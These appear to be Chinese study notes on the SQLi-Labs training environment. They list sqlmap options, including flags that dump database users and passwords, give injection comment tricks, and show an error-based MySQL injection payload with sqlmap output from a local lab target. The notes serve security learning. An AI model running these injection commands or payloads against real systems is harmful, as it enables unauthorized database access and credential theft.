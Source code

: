 # SQLi-Labs(Sqlmap与手工注入)

## 提醒！

- kali中sqlmap的源码地址：/usr/share/sqlmap
- docker重新启动sqli-labs：docker start njh-sqli-labs
- 对于clone，将原本的网站中的github.com 进行替换为github.com.cnpmjs.org
- 使用sqlmal

  - kali下用sqlmap直接使用 `sqlmap` -u 'url' --technique=E 语句

  - 下载到非默认系统环境中，进入sqlmap的文件目录下 `python sqlmap.py` -u 'url' --technique=E 语句
- 查询日志sqlmap文件下的output，log是注入的日志，target.txt是执行的sqlmap命令，session.sqlite可以用sqlitespy查看书库内容。    ！！！
- SQL注入就是通过注入一些数据库可执行的语句，显示出存储在数据库的内容。



## SQL注入时的技巧

- 进行注释
  - `--+` 加号表示为空格
  - `#`若进行过滤则用`%23`
  - `-- 字符` 







## Sqlmap

```shell
njh㉿kali)-[~]
└─$ sqlmap -u 'http://localhost:520/Less-1/?id=2%22' --technique=E
#-u 指url，后面加网址
#--technique=E    E(基于的报错注入)、B(盲注)、U(联合注入)、S(堆叠注入)、T(基于时间的盲注)、Q(直接查询)
#--tamper=123.py  123.py是加载的payload

#--tamper ["脚本名称"]
#--current-db当前使用的数据库
#--current-user  数据库使用账户
#--users 有多少个用户
#--passwords 

(njh㉿kali)-[~]
└─$ sqlmap -u 'http://localhost:520/Less-1/?id=2%22' --technique=E --current-db

[18:24:51] [INFO] resuming back-end DBMS 'mysql' 
[18:24:51] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: error-based
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: id=2"' AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7162627871,(SELECT (ELT(3664=3664,1))),0x71706a7071,0x78))s), 8446744073709551610, 8446744073709551610)))-- xJdS
---
[18:24:51] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.5
[18:24:51] [INFO] fetching current database
[18:24:51] [INFO] resumed: 'security'
current database: 'security'
```